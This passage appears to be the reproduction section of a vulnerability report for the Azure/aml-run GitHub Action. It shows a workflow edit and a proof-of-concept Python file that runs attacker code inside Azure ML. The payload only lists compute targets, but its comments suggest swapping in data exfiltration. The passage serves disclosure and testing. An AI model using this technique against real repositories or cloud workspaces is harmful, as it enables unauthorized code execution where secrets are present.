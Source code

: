     2. Navigate to the workflow files (e.g., `.github/workflows/integration_test.yml`) in your forked repository. Edit the workflow file.
    3. In the workflow file, locate the `Azure/aml-run` action step. Modify the `with` section of this step to include or modify the `runconfig_python_file` input to point to a malicious Python file. For example:
        ```yaml
        - uses: Azure/aml-run@v1
          id: aml_run
          with:
            azure_credentials: ${{ secrets.AZURE_CREDENTIALS }}
            runconfig_python_file: malicious_run_config.py # Point to malicious file
        ```
    4. In the root of your forked repository, create a new Python file named `malicious_run_config.py` with the following malicious code. This code is a proof of concept and can be replaced with more harmful actions:
        ```python
        import os
        from azureml.core import Workspace

        def main(workspace: Workspace):
            print("Malicious code execution started")
            try:
                # Example malicious action: List compute targets (can be replaced with data exfiltration, etc.)
                compute_targets = Workspace.get(
                    name=workspace.name,
                    subscription_id=workspace.subscription_id,
                    resource_group=workspace.resource_group
                ).compute_targets
                print("Compute targets:", list(compute_targets.keys()))
            except Exception as e:
                print(f"Error accessing compute targets: {e}")
            print("Malicious code execution finished")

            # Return a dummy valid run config to prevent action failure
            from azureml.core import ScriptRunConfig, Environment, ComputeTarget
            compute_target = ComputeTarget(workspace=workspace, name="aml-intTest") # Replace with existing compute target if needed
            environment = Environment(name="dummy-env") # Dummy environment
            script_config = ScriptRunConfig(source_directory=".", script="dummy_script.py", compute_target=compute_target, environment=environment)
            return script_config
        ```
    5. Also, create a dummy script file named `dummy_script.py` in the repository root. This file can be empty, as it's only needed to satisfy the `ScriptRunConfig` object returned by the malicious script.
    6. Commit and push both `malicious_run_config.py` and the modified workflow file to your forked repository.
    7. Observe the GitHub Actions run for your fork. Check the logs for the `Azure/aml-run` action step.
    8. If the vulnerability is successfully exploited, you will see the output "Malicious code execution started", followed by the attempt to list compute targets (or any other malicious actions you included in `malicious_run_config.py`), and finally "Malicious code execution finished" in the action logs. This demonstrates that arbitrary Python code provided by the attacker was executed within the Azure ML environment.
